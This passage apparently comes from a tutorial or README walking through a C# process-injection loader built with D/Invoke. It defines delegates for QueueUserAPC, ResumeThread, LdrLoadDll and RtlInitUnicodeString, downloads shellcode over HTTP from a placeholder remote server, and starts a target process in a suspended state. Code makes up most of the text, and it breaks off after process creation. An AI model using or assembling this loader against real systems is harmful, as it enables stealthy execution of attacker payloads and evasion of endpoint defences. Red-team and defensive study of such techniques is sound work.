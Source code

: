 Creating delegate for [QueueUserAPC](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotectex)
```csharp
[UnmanagedFunctionPointer(CallingConvention.StdCall)]
public delegate IntPtr QueueUserAPC(IntPtr pfnAPC, IntPtr hThread, IntPtr dwData);
```

Creating delegate for [ResumeThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread)
```csharp
[UnmanagedFunctionPointer(CallingConvention.StdCall)]
public delegate uint ResumeThread(IntPtr hThhread);
```

Creating delegate for `LdrLoadDll` (This is an undocumented native API, go to http://undocumented.ntinternals.net/ and search for LdrLoadDll)
```csharp
[UnmanagedFunctionPointer(CallingConvention.StdCall)]
public delegate UInt32 LdrLoadDll(IntPtr PathToFile, UInt32 dwFlags, ref STRUCTS.UNICODE_STRING ModuleFileName, ref IntPtr ModuleHandle);
```

Creating delegate for [RtlInitUnicodeString](https://www.pinvoke.net/default.aspx/ntdll/RtlInitUnicodeString.html)
```csharp
[UnmanagedFunctionPointer(CallingConvention.StdCall)]
public delegate void RtlInitUnicodeString(ref STRUCTS.UNICODE_STRING DestinationString, [MarshalAs(UnmanagedType.LPWStr)] string SourceString);
```

We can now start invoking the APIs through the delegates in our Main() function.
We can either store our (encrypted)shellcode on within the assembly or download it from a remote server.
To download the shellcode from a remote server, we need the `System.Net.Http` namespace, and create a `HttpClient`:
```csharp 
byte[] shellcode;
using (var recv = new HttpClient()) {
  shellcode = recv.GetByteArrayAsync("https://x.x.x.x/shellcode.bin").GetAwaiter().GetResult();
}
``` 

`startInfo` and `procInfo` store process information such as process handle and thread handle:
```csharp
STRUCTS.STARTUPINFO startInfo = new STRUCTS.STARTUPINFO();
STRUCTS.PROCESS_INFORMATION procInfo = new STRUCTS.PROCESS_INFORMATION();
```

Invoke Create Process through its delegate:
```csharp
IntPtr pntr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "CreateProcessA");
DELEGATES.CreateProcess createProc = Marshal.GetDelegateForFunctionPointer(pntr, typeof(DELEGATES.CreateProcess)) as DELEGATES.CreateProcess;
// Spawn new process in suspended state
bool yayornay = createProc("process_path_here", null, IntPtr.Zero, IntPtr.Zero, false, STRUCTS.ProcessCreationFlags.CREATE_SUSPENDED,
IntPtr.Zero, null, ref startInfo, out procInfo);
```
